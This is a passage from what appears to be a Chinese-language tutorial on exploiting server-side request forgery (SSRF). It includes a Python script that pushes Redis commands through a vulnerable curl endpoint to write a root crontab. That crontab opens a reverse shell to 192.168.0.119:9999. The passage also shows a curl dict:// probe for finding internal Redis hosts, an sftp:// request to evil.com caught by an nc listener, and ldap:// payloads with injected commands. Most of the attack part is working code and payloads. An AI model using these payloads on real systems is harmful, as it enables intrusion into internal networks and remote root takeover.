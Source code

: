剩下的修改路径和文件名称的请求，正常执行即可，脚本如下：

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib,binascii
url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
target = "dict://192.168.0.119:6379/"
cmds = ['set:mars:\\\\"\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\\n\\\\"',
       "config:set:dir:/etc/",
       "config:set:dbfilename:crontab",
       "bgsave"]

for cmd in cmds:
    cmd_encoder = ""
    for single_char in cmd:
        # 先转为ASCII
        cmd_encoder += hex(ord(single_char)).replace("0x","")
    cmd_encoder = binascii.a2b_hex(cmd_encoder)
    cmd_encoder = urllib.quote(cmd_encoder,'utf-8')

    payload = url + target + cmd_encoder
    print payload
    request = urllib2.Request(payload)
    response = urllib2.urlopen(request).read()
```

但很多时候我们利用ssrf漏洞去攻击内网服务器的时候，并不知道内网中有什么样的应用、IP地址是多少、开放了什么端口、端口对应的服务是什么。所以需要先对内网做IP+端口的扫描，如果开放的服务是redis才能使用上文讲到的利用方法，对于不同的应用有不同的扫描方法，例如，redis的扫描可以请求以下内容来根据回显内容进行判断是否为redis，其他的服务也是同样道理，只要知道服务的指纹，然后与自己的指纹库进行比对即可：

```sh
curl dict://192.168.0.119:6379/
```



#### sftp:// 

Sftp代表SSH文件传输协议，或安全文件传输协议，是SSH的内含协议，在安全连接上与SSH类似。

```php
http://example.com/ssrf.php?url=sftp://evil.com:1337/

evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
SSH-2.0-libssh2_1.4.2
```



#### ldap:// or ldaps:// or ldapi:// -

LDAP代表轻量级目录访问协议。它是一种通过IP网络管理和访问分布式目录信息服务的应用协议。

```php
http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit
http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit
http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
```
